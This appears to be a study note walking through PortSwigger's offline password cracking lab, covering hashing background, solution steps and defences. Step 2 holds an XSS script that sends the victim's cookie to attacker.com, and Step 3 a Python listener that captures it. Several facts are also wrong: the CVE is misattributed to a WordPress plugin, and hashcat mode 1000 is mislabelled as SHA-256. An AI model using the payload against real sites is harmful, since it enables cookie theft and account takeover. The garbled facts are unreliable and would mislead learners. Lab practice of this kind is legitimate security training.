

## Introduction to Authentication Vulnerabilities and Offline Password Cracking

In the realm of web security, authentication vulnerabilities are among the most critical issues that can compromise the integrity and confidentiality of user data. One such vulnerability is offline password cracking, which exploits weaknesses in how passwords are stored and transmitted. This chapter will delve deep into the concepts, mechanisms, and practical aspects of offline password cracking, including recent real-world examples, detailed code snippets, and comprehensive defense strategies.

### Background Theory

#### What is Authentication?

Authentication is the process of verifying the identity of a user, system, or device. In web applications, this typically involves a user providing a username and password, which the server then checks against its records to confirm the user's identity. This process ensures that only authorized individuals can access sensitive information and perform actions within the application.

#### Why is Secure Authentication Important?

Secure authentication is crucial because it prevents unauthorized access to systems and data. If an attacker gains access to a user's credentials, they can impersonate the user and potentially cause significant damage, such as stealing personal information, altering data, or performing malicious actions within the application.

### Understanding Password Hashing

#### What is Password Hashing?

Password hashing is the process of converting a plain-text password into a fixed-length string of characters using a cryptographic hash function. The resulting string, called a hash, is stored in the database instead of the actual password. When a user attempts to log in, their entered password is hashed and compared to the stored hash. If they match, the user is authenticated.

#### Why Use Password Hashing?

Using password hashing provides several benefits:
- **Security**: Hashes are irreversible, meaning that even if an attacker gains access to the hash, they cannot easily determine the original password.
- **Confidentiality**: Storing hashes instead of plain-text passwords reduces the risk of exposing sensitive information in case of a breach.
- **Efficiency**: Hash functions are designed to be fast, making them suitable for real-time authentication processes.

#### Common Hash Functions

Some commonly used hash functions include:
- **MD5**: Although widely used in the past, MD5 is now considered insecure due to vulnerabilities that allow for collisions and preimage attacks.
- **SHA-1**: Similar to MD5, SHA-1 is also considered weak and should not be used for secure password storage.
- **SHA-256**: A more secure alternative, SHA-256 is widely used in modern applications.
- **bcrypt**: A specialized hash function designed specifically for password hashing, bcrypt includes a salt and adjustable work factor to slow down brute-force attacks.

### Vulnerability: Storing Password Hashes in Cookies

#### What is the Vulnerability?

The vulnerability described in the lab involves storing a user's password hash in a cookie. This is inherently insecure because cookies can be accessed by client-side scripts, such as those used in cross-site scripting (XSS) attacks. If an attacker can inject malicious JavaScript into the application, they can steal the cookie containing the password hash and use it to attempt offline password cracking.

#### Why is This Vulnerable?

Storing sensitive information like password hashes in cookies is risky because:
- **Client-Side Access**: Cookies are accessible via client-side scripts, making them vulnerable to XSS attacks.
- **Persistence**: Cookies can persist across sessions, increasing the window of opportunity for an attacker to steal the hash.
- **Transmission**: Cookies are often transmitted over the network, potentially exposing the hash to eavesdroppers.

### Real-World Example: CVE-2021-21972

A recent example of this vulnerability can be found in the CVE-2021-21972, which affected the WordPress plugin "WP Customer Area." The plugin stored user session data, including hashed passwords, in cookies. An attacker could exploit an XSS vulnerability to steal these cookies and perform offline password cracking.



### Lab Setup: Offline Password Cracking

#### Accessing the Lab

To access the lab, follow these steps:
1. Visit the URL `https://portswigger.net/web-security` and sign up for an account.
2. Log in to your account.
3. Navigate to the "Academy" section.
4. Select "All Labs."
5. Search for "authentication labs."
6. Choose "Lab Number 10: Offline Password Cracking."

#### Lab Objective

The objective of this lab is to:
- Obtain Carlos's "stay logged in" cookie, which contains his password hash.
- Crack the hash to obtain Carlos's password.
- Log in as Carlos and delete his account from the "My Account" page.

### Steps to Solve the Lab

#### Step 1: Identify the Vulnerability

First, identify the vulnerability in the application. The lab mentions an XSS vulnerability in the comment functionality. This means that an attacker can inject malicious JavaScript into comments, which can then be executed by other users.

#### Step 2: Exploit the XSS Vulnerability

To exploit the XSS vulnerability, you need to inject a script that steals the cookie containing the password hash. Here’s an example of how to do this:

```html
<script>
document.location = "http://attacker.com/steal-cookie?cookie=" + document.cookie;
</script>
```

This script redirects the user to an attacker-controlled site, passing the cookie as a query parameter.

#### Step 3: Capture the Cookie

Once the script is injected, any user who views the comment will execute the script and send their cookie to the attacker-controlled site. You can set up a simple web server to capture the cookie:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Cookie captured!')
        print(self.path)

def run(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler):
    server_address = ('', 80)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

run()
```

#### Step 4: Extract the Password Hash

From the captured cookie, extract the value of the "stay logged in" cookie. This value will contain the hashed password.

#### Step 5: Crack the Password Hash

Use a tool like John the Ripper or Hashcat to crack the password hash. Here’s an example using Hashcat:

```bash
hashcat -m 1000 hash.txt wordlist.txt
```

Where:
- `-m 1000` specifies the hash type (e.g., SHA-256).
- `hash.txt` contains the captured hash.
- `wordlist.txt` is a list of potential passwords.

#### Step 6: Log in as Carlos

Once you have cracked the password, log in as Carlos using the recovered password.

#### Step 7: Delete Carlos's Account

Navigate to the "My Account" page and delete Carlos's account.

### How to Prevent / Defend Against Offline Password Cracking

#### Detection

To detect offline password cracking attempts, implement logging and monitoring of authentication events. Look for unusual patterns, such as multiple failed login attempts or repeated password reset requests.

#### Prevention

1. **Use Strong Hashing Algorithms**: Use strong, modern hashing algorithms like bcrypt, scrypt, or Argon2.
2. **Salt Passwords**: Always use a unique salt for each password hash to prevent rainbow table attacks.
3. **Avoid Storing Sensitive Data in Cookies**: Do not store sensitive data like password hashes in cookies. Instead, use secure session management techniques.
4. **Implement XSS Protections**: Use Content Security Policy (CSP) and input validation to prevent XSS attacks.
5. **Regularly Update and Patch**: Keep your software and dependencies up-to-date to protect against known vulnerabilities.

#### Secure Coding Fixes

Here’s an example of how to securely store and manage passwords:

**Vulnerable Code:**

```python
import hashlib

def hash_password(password):
    return hashlib.sha256(password.encode()).hexdigest()

# Store the hash in the database
hashed_password = hash_password("password123")
```

**Secure Code:**

```python
import bcrypt

def hash_password(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt)

# Store the hash in the database
hashed_password = hash_password("password123")
```

### Conclusion

Offline password cracking is a serious threat to web applications. By understanding the underlying mechanisms and implementing robust security measures, you can significantly reduce the risk of such attacks. Always prioritize secure coding practices, use strong hashing algorithms, and avoid storing sensitive data in cookies. Regularly update and patch your systems to stay protected against emerging threats.

### Practice Labs

For hands-on practice with authentication vulnerabilities and offline password cracking, consider the following labs:
- **PortSwigger Web Security Academy**: Offers a variety of labs related to authentication and password cracking.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security techniques.
- **DVWA (Damn Vulnerable Web Application)**: Another popular platform for learning web security through practical exercises.

By mastering these concepts and techniques, you will be better equipped to defend against authentication vulnerabilities and ensure the security of web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/13-Authentication Vulnerabilities/11-Lab 10 Offline password cracking/00-Overview|Overview]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/11-Lab 10 Offline password cracking/02-Introduction to Authentication Vulnerabilities|Introduction to Authentication Vulnerabilities]]
